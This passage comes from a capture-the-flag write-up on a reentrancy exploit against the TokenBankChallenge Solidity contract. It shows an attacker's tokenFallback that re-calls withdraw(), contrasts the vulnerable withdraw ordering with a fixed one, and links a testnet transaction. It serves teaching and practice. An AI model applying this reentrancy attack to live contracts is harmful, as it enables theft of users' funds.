 In this case, we will only call `withdraw()` again if there's funds still available in the contract.

A `tokenFallback()` function must also be implemented because the SimpleERC223Token contract will call it. This function must also include a call to the `withdraw()` in our attacker contract, I implemented it like this:

```js
function tokenFallback(address sender, uint256 value, bytes data) external {
    if (sender == address(challenge)) {
        withdraw();
    }
}
```

We only want to call withdraw when the TokenBankChallenge contract transfers funds to the attacker contract through `require(token.transfer(msg.sender, amount));` (line 106 in the challenge contract). 

The reentrancy vulnerability would be impossible to execute if the balance is updated prior to calling transfer in the token contract:

```js
function withdraw(uint256 amount) public {
    require(balanceOf[msg.sender] >= amount);
    balanceOf[msg.sender] -= amount;
    require(token.transfer(msg.sender, amount));
}
```

However, the contract is coded as follows:

```js
function withdraw(uint256 amount) public {
    require(balanceOf[msg.sender] >= amount);

    require(token.transfer(msg.sender, amount));
    balanceOf[msg.sender] -= amount;
}
```

#### Submission transaction

https://ropsten.etherscan.io/tx/0xd172a0fe62e154b55ca71d98f8003835121977c5ff18a1c4d76c97b5c4e380fb
